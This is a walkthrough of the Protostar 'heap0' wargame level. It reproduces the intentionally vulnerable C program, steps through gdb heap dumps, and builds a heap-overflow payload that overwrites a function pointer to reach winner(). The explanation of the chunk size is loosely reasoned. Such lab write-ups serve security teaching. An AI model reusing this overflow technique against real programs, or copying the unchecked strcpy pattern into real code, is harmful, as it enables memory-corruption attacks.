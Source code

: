 ## Simple Heap Overflow

heap0.c from protostar

```clike
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {  
  char name[64];
};

struct fp {  
  int (*fp)();
};

void winner()  
{
  printf("level passed\n");
}

void nowinner()  
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)  
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);

  f->fp();

}
```
 - `d = malloc(sizeof(struct data));` -> allocated dynamic memory
 - `f = malloc(sizeof(struct fp));` -> allocated dynamic memory
 - `f->fp = nowinner;` -> function pointer is pointed to nowinner function
 - `strcpy(d->name, argv[1]);` -> user input allocated in first chunk
 - `f->fp();` -> call the function that address stored in `f->fp`
 - in this challenge, we need to call winner function

Testing challenge binary

```
$ ./heap0 AAAA BBBB
data is at 0x804a008, fp is at 0x804a050
level has not been passed
```
**Viewing heap in gdb**

 - `gdb -q ./heap0` -> load the program with gdb
 - `set disassembly-flavor intel` - > setting disassembly result to intel
 - `disas main` -> disassembling main function to set a break point
 - `break *main+76` -> set a breakpoint at printf function call
 - `run AAAA` -> run program to hit our breakpoint

viewing memory map 

```
(gdb) info proc map
process 1513
cmdline = '/opt/protostar/bin/heap0'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/heap0'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/heap0
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/heap0
         0x804a000  0x806b000    0x21000          0           [heap]
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fe0000 0xb7fe2000     0x2000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
``` 

 - `0x804a000  0x806b000    0x21000          0           [heap]` -> now we know the heap address
 - `x/32x 0x804a000` -> examining heap 

defining hook for better debugging

```
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/32x 0x804a000
>x/2i $eip
>end
```
 run again

```
(gdb) run AAAA
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap0 AAAA
0x804a000:      0x00000000      0x00000049      0x00000000      0x00000000
0x804a010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a040:      0x00000000      0x00000000      0x00000000      0x00000011
0x804a050:      0x08048478      0x00000000      0x00000000      0x00020fa9
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000000      0x00000000      0x00000000      0x00000000
0x80484d8 <main+76>:    call   0x8048378 <printf@plt>
0x80484dd <main+81>:    mov    eax,DWORD PTR [ebp+0xc]

Breakpoint 1, 0x080484d8 in main (argc=2, argv=0xbffffd64) at heap0/heap0.c:34
34      in heap0/heap0.c
```
 - user input is not stored into heap chunk 
 - run after strcpy function called

```
0x804a000:      0x00000000      0x00000049      0x41414141      0x00000000
0x804a010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a040:      0x00000000      0x00000000      0x00000000      0x00000011
0x804a050:      0x08048478      0x00000000      0x00000000      0x00020fa9
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000000      0x00000000      0x00000000      0x00000000
```
 - by understanding heap chunk
	 - `0x49` -> chunk size , 73 bytes in decimal
	 - we should inject payload more than 73 bytes 
	 - `run $(python -c 'print "A"*80')`

result
```
0x804a000:      0x00000000      0x00000049      0x41414141      0x41414141
0x804a010:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a020:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a030:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a040:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a050:      0x41414141      0x41414141      0x00000000      0x00020fa9
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000000      0x00000000      0x00000000      0x00000000
```
continue
 - `0x41414141 in ?? ()` -> overflowed f->fp 

controlling f->fp

 - `0x49 -> 73` -> but we need to consider f's chunk size
 - `73 - 1 = 72` -> `run $(python -c 'print "A"*72+"BBBB"')`

result
```
0x804a000:      0x00000000      0x00000049      0x41414141      0x41414141
0x804a010:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a020:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a030:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a040:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a050:      0x42424242      0x00000000      0x00000000      0x00020fa9
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000000      0x00000000      0x00000000      0x00000000
```

 - yeah , we controlled 
 - `disas winner` -> looking the address of winner function
 - `0x08048464` -> `\x64\x84\x04\x08` in little endian
 - `run $(python -c 'print "A"*72+"\x64\x84\x04\x08"')` -> final payload

result

```
$ ./heap0 $(python -c 'print "A"*72+"\x64\x84\x04\x08"')
data is at 0x804a008, fp is at 0x804a050
level passed
```

---

